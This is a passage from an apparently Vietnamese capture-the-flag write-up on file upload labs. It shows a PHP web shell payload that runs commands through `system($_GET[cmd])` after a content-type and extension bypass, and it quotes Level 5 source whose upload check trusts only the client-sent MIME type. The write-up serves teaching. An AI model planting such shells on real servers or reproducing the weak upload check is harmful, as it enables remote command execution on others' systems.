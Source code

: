 - mình đổi phần Content-Type là `text/plain` và gửi file này

![image](https://hackmd.io/_uploads/BJlaBJHRW0.png)

- Như vậy, hiện tại chúng ta có thể upload các file với phần mở rộng .cuong và có thể thực thi các đoạn code tương đương với một file php.

![image](https://hackmd.io/_uploads/HkpQJSCZA.png)

- giờ mình chỉ cần truy cập vào file mình đã upload và thực thi shell

![image](https://hackmd.io/_uploads/HJN4yHAW0.png)

- tiếp theo mình đọc flag với payload

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình lấy được flag

![image](https://hackmd.io/_uploads/r1crlrAZR.png)

## File upload workshop Level 5

![image](https://hackmd.io/_uploads/rJVPxBCWC.png)

### Phân tích

- đọc source code mình được:

```php
<?php
// error_reporting(0);

// Create folder for each user
session_start();
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = 'upload/' . session_id();
}
$dir = $_SESSION['dir'];
if (!file_exists($dir))
    mkdir($dir);

if (isset($_GET["debug"])) die(highlight_file(__FILE__));
if (isset($_FILES["file"])) {
    $error = '';
    $success = '';
    try {
        $mime_type = $_FILES["file"]["type"];
        if (!in_array($mime_type, ["image/jpeg", "image/png", "image/gif"])) {
            die("Hack detected");
        }
        $file = $dir . "/" . $_FILES["file"]["name"];
        move_uploaded_file($_FILES["file"]["tmp_name"], $file);
        $success = 'Successfully uploaded file at: <a href="/' . $file . '">/' . $file . ' </a><br>';
        $success .= 'View all uploaded file at: <a href="/' . $dir . '/">/' . $dir . ' </a>';
    } catch (Exception $e) {
        $error = $e->getMessage();
    }
}
?>
```
